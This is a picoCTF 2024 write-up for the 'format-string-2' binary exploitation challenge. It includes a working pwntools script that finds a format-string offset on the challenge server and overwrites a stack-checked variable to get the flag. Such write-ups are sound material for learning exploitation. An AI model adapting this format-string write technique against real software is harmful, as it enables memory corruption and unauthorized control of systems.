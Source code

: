 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!<br>
Download the binary [here](../format-string-2).<br>
Download the source [here](../format-string-2.c).

## Solution

1. Connect with the challenge instance.
2. Review the c source code given to investigate.
3. We'll then found out that the input read is printed as hex values.

   ![image](https://github.com/user-attachments/assets/fbda7617-3b95-471c-afe9-241b8b6592d8)
   **`scanf` will take the input until it encounters any newline, tab or space. Meaning that payloads could be inputted as well. To find the flag, we need to change the value of sus.*
   
4. To overwrite the value of sus, we'll need to find the address of it and export it as a file named "objdump.txt".<br>
   `objdump -D vuln > objdump.txt`
5. Then, write a python script with pwntools to automatically find the offset and overwrite it.

   ```python
   from pwn import *

   context.log_level = "critical"
   context.binary = ELF('./vuln')
   
   p = remote('rhea.picoctf.net', 57163)
   
   def exec_fmt(payload):
       p = remote('rhea.picoctf.net', 57163)
       p.sendline(payload)
       return p.recvall()
   
   autofmt = FmtStr(exec_fmt)
   offset = autofmt.offset
   
   payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
   
   p.sendline(payload)
   
   flag = p.recvall()
   
   print("Flag: ", flag)
   ```

   **The script above is got from [here](https://github.com/noamgariani11/picoCTF-2024-Writeup/blob/main/Binary%20Explotation/format-string-2.md).*
6. Get the flag.
